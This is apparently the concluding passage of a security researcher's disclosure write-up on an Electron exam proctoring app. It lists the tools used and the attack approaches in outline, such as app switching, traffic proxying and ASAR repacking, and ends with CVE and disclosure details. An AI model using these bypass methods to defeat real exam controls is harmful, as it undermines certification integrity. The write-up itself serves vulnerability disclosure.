**Exam proctoring is a fundamentally hard problem.** You cannot enforce restrictions on a machine the candidate controls. Without server-side attestation and integrity verification, client-side lockdown is security theatre, it stops casual attempts but fails against anyone with basic technical knowledge.

**Some attacks require zero technical skill.** Switching to another application during the exam works on a fresh install. Running the application through a free proxy tool intercepts all traffic. Both require no knowledge of Electron, no code modification, and no specialist tools. The barrier to cheating is lower than the marketing implies.

**Test your assumptions.** This application had ISO 27001 certification and was used by medical certification bodies and government organisations. The marketing promised "complete security and integrity." Five minutes with a command line proved otherwise.

---

## Tools Used

- **PowerShell**, file manipulation, string searching
- **@electron/asar**, ASAR archive extraction and repacking (`npm install -g @electron/asar`)
- **Node.js**, required for the asar tool
- **Notepad**, source code editing
- **Chrome DevTools**, runtime analysis and exploitation (built into Electron)
- **Burp Suite Community Edition**, HTTP proxy for traffic interception (PoC 6; free tier sufficient)

No specialist hacking tools. No exploits. No admin privileges. Just standard developer tools.

---

*We conduct thick client security assessments, web application testing, and infrastructure penetration testing through Forefront IT Security Services. If your organisation uses desktop applications for security-critical functions and you'd like to know how they hold up, get in touch with Nicholas Ineson at Forefront IT Security Services.*

*Vendor notification sent: 18 February 2026. The 90-day coordinated disclosure window expired on 19 May 2026 with no vendor response. CVE identifiers CVE-2026-36487 through CVE-2026-36492 have been assigned for the six findings.*
